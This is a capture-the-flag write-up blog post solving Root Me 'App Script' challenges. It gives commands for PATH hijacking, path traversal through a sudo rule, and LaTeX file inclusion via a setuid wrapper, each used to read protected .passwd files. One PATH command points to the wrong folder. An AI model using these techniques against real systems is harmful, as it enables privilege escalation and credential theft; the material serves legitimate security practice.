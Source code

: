 ```yaml
---
layout: post
title: 'Root Me | App Script - Very Easy'
date: 2022-02-27
permalink: /rootme/app-script/very-easy/
---
```


# [](#header-4)Bash - System 1
We need to copy cat into our folder, then change the name to "ls" and change the path to that folder.
Now the script will read it as cat.
{% highlight plain %}
$ mkdir /tmp/zeropio
$ cp /bin/cat /tmp/zeropio
$ mv /tmp/zeropio/cat /tmp/zeropio/ls
$ export PATH=/tmp/zeropio:$PATH
$ ./ch11
{% endhighlight %}

# [](#header-4)Sudo - weak configuration
We need to see all the sudo options (with -l). Then we can see we need to use the cracked user, who can only do a cat to ./notes/ .
{% highlight plain %}
$ sudo -l
$ sudo -u app-script-ch1-cracked cat /challenge/app-script/ch1/notes/../ch1cracked/.passwd
{% endhighlight %}

# [](#header-4)Bash - System 2
As we did in the first, we need to use nano instead of cat because the script have the options -al.
{% highlight plain %}
$ mkdir /tmp/zeropio
$ cp /bin/nano /tmp/zeropio
$ mv /tmp/zeropio/nano /tmp/zeropio/ls
$ export PATH=/tmp/zeropio2:$PATH
$ ./ch12
{% endhighlight %}

# [](#header-4)LaTex Input
We will create a **main.tex** file with the following content:
{% highlight plain %}
\documentclass{article}
\usepackage{verbatim}

\begin{document}
\verbatiminput{/challenge/app-script/ch23/.passwd}
\end{document}
{% endhighlight %}

We will generate a **main.pdf**file:
{% highlight plain %}
$ ./setuid-wrapper /tmp/main.tex
{% endhighlight %}

 Then we will just get the pdf:
{% highlight plain %}
 $ scp -P 2222 app-script-ch23@challenge02.root-me.org:/tmp/tmp.pIzF7UG6do/main.pdf .
 {% endhighlight %}